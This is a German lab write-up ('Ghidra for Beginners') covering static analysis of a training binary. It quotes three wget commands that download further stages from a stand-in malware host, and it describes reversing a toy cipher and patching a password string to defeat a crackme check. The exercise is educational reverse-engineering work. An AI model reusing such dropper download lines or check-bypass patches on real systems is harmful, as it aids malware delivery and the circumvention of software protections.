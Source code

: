 ```yaml
---
title: Ghidra for Beginners
author: Paul Nykiel
date: \today
---
```


# Einführung
Der `file` Befehl teilt einem mit, dass es sich um eine Executable (mit Debug Informationen) für x86-64 Linux handelt.

Beim ausführen werden drei neue Executables angelegt: `02_a`, `02_b` und `03`. Mit `strings 01` kann man herausfinden
woher die Dateien kommen, man findet drei `wget` Anweisungen:
```
wget -q http://malware.h4.xx0r/02_a
wget -q http://malware.h4.xx0r/02_b
wget -q http://malware.h4.xx0r/03
```
interessehalber kann auch herausgefunden werden was sich hinter `malware.h4.xx0r` versteckt, mit `dig` kann
der DNS-Eintrag aufgelöst werden, er zeigt auf Localhost. D.h. es läuft ein Webserver in der VM.

# Advanced
## Chiffre analysieren
Das Program akzeptiert zwei Argument mit jeweils genau 10 Zeichen länge. 
Das erste Argument wird transformiert und muss dann gleich dem zweiten Argument sein. 
Die Transformation erfordert, dass das Wort nur aus Buchstaben besteht, diese werden im ersten Schritt alle
zu Kleinbuchstaben umgewandelt. Im nächsten Schritt wird der ASCII-Wert jeden Buchstabens mit 10 Multipliziert und
Modulo `0x1A` gerechnet. Auf das Ergebniss wird dann der ASCII Wert von "a" addiert und dieses Ergebniss wird wieder
nach ASCII repräsentation Interpretiert.

Um die Transformation schnell ausrechnen zu können wurde ein kleine Python Skript geschrieben:
```python
import sys

inp = sys.argv[1]
out = ""

for c in inp:
    asc = ((ord(c) * 10) % 0x1A) + ord('a')
    out += chr(asc) 

print(out)
```
dieses ergibt z.B. für den Text `aaaaaaaaaa` die Chiffre `iiiiiiiiii`. Diese wird vom Program auch als korrekt angenommen.

## Patchen
Das Passwort ist immer eine zufällige Permutation aller Zeichen eines Strings im Programmcode (der String ist 
initial `0123456789`). Durch Patchen des Strings (wie in der VL beschrieben) zu `0000000000` sind alle Passwörter
Permutationen von `0` also wieder `0000000000`.
